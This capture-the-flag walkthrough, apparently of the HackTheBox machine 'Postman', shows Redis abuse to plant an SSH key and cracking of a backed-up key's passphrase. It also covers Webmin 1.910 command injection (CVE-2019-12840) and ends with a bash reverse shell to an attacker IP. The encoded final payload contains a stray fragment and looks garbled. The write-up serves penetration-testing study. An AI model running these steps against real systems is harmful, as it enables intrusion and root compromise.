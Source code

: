 1,Recon
port scan
	22/tcp ssh`OpenSSH 7.6p1 Ubuntu 4ubuntu0.3`
	80/tcp http `Apache httpd 2.4.29`
	6379/tcp redis `Redis key-value store 4.0.9`
	10000/tcp http `MiniServ 1.910 (Webmin httpd)`
Check the services:
port 80: This is a introduction page, and by enumerating the web-content
```
There are only a few useful urls for us.
/css /images /js /upload
```
When we check them, it would redirect to file console:
![](images/Pasted%20image%2020240921090504.png)
But I can not find anything useful for us.

port 6379 redis
```
Redis is an open-source, in-memory data structure store, primarily used as a database, cache, and message broker. It supports various data structures such as strings, hashes, lists, sets, and sorted sets, among others. Redis is known for its high performance and supports operations like automatic persistence, replication, and clustering.
```

We can use `netcat` and `redis-cli` interact with redis.
```
I can interact with Redis just using nc. I can run keys to list the current keys:
nc 10.10.10.160 6379 
keys *
*0

This redis instance has nothing in it. I can add something:
10.10.10.160:6379> keys *
(empty array)
10.10.10.160:6379> incr wither
(integer) 1
10.10.10.160:6379> keys *
1) "wither"
```

port 10000 http:
This service for us, we have known its version `MiniServ 1.910 (Webmin httpd)`
![](images/Pasted%20image%2020240921090918.png)
We need to put this hostname into our hosts file.
Then we get a login page:
![](images/Pasted%20image%2020240921091106.png)

We don't have any credits, so let's come to check the version of the service and find something exploitable.
`Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)` 
From the exploit-db, but it seems need the valid credit.

Strategy for exploit redis
```
Since I can write to redis, I basically have almost arbitrary write on the file system as the user redis is running as by writing the database to a file with the save command. The reason it’s “almost arbitrary” is because I can’t cleanly write a file, but rather, I can write my content with junk on either side. But there are many file-based attacks on Linux that are robust to the extra junk. For example, writing an SSH key. sshd will ignore the junk lines, and process lines that have a public key in the authorized_keys file.

```

I can check the current directory for redis:
```
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis"
```

I can make that guess that this is likely the user that runs the redis server’s home directory. I can confirm that by changing the current directory to ./.ssh:
```
10.10.10.160:6379> config set dir ./.ssh
OK
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
```

The fact that that command works indicates that directory exists, and which suggests this is a home directory for this user.
I'll add my `id_rsa.pub` to a file with some extra newlines before and after the key:
```
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > spaced_key.txt
```

```
Redis is going to write a binary database file into authorized_keys, where sshd is then going to open that file as an ASCII text file and read it line by line, looking for a public key that matches the private key being sent to it. The newlines will help make sure that the public key is on its own line in the file.
```

I can use the -x options in redis-cli which will “read the last argument from STDIN” to cat this file into redis-cli and set it’s value into the database:
```
cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set wither
```

Next I’ll tell redis that the dbname is authorized_keys, and then save:
```
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```

Now I can get a shell with SSH.

There is only one user `Matt` but we don't have permission to check anything of him.
But I found another one file in `/opt`: `id_rsa.bak` and we can read it directly.

Then of course we need to crack it. :)
```
ssh2john id_rsa > hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)     
1g 0:00:00:00 DONE (2024-09-21 09:34) 5.263g/s 1299Kp/s 1299Kc/s 1299KC/s comunista..comett
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Then we get the passphrase `computer2008`

Very sad, ssh login failed.
```
ssh -i id_rsa Matt@10.10.10.160      
Enter passphrase for key 'id_rsa': 
Connection closed by 10.10.10.160 port 22
```

Let's try `su Matt` and hope he use the same credit for his account.
(Thanks God !!!!!)

3,shell as root
Firstly I really like check `sudo -l` but very sadly, Matt could not do anything as root.
```
sudo -l
Sorry, user Matt may not run sudo on Postman.
```
Then I would continue check `.bash_history`
```
su root
mv SimpleHTTPPutServer.py /var/www/html/
mkdir server
mv server server/
mv server.py server/
cd server
```
I am very curious about the directory server.
```
SimpleHTTPPutServer.py
# python -m SimpleHTTPPutServer 8080
import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))


if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```
But I have check the `netstate` and there is no port 8080 service.
```
netstat -ntlp
0.0.0.0:6379 redis
127.0.0.53:53 DNS
0.0.0.0:10000 webmin
0.0.0.0:22 ssh
```
In this place, I only did not check the service of port 10000.
Then use the `Matt:computer2008` credit we finally login in to the `webmin`
![](images/Pasted%20image%2020240921095321.png)
We have get the Webmin version `1.9.10`
We can try to use the previous poc `Webmin 1.910 - Remote Code Execution`
or run the exploit script from msf.

 It’s very common that webmin uses the system’s authentication.
 Matt does not have access to do much:
![](images/Pasted%20image%2020240921101655.png)

CVE-2019-12840 is described on Packet Storm as:
`https://github.com/KentVolt/Webmin-1.910-Exploit.git`
```
An arbitrary command execution vulnerability in Webmin 1.910 and lower versions. Any user authorized to the “Package Updates” module can execute arbitrary commands with root privileges.
```
It turns out that’s the one thing Matt can do!

The package updater is vulnerable to command injection through the u POST parameter. Click on System on the panel to the left, then click on Software Package Updates . Turn on Burp intercept and click on Update Select Packages .
![](images/Pasted%20image%2020240921102623.png)

A request to `/package-updates/update.cgi` should be intercepted, send this to Burp Repeater
and remove all the parameters. Add the following payload to the end of the request:
`u=acl%2Fapt&u=$(whoami)`

This should execute whoami before the apt update command. Once the page returns, scroll to the bottom to look at the output.
![](images/Pasted%20image%2020240921102721.png)
It's seen that the server tried to install a package named root , which was the output of `whoami` Similarly, a bash reverse shell can be executed.

the payload would be 
```
bash -c "bash -i >& /dev/tcp/10.10.16.6/443 0>&1"

In this place, every symbol need to encode with url encode
like '+' %2b,  '=' %3d.

u=acl%2Fapt&u=$(echo${IFS}YmFzaCAtYyAiYmFzaCAtaSA%2bcat JiAvZGV2L3RjcC8xMC4xMC4xNi42LzQ0MyAwPiYxIg%3d%3d|base64${IFS}-d|bash)
```

Then we can get the root shell.
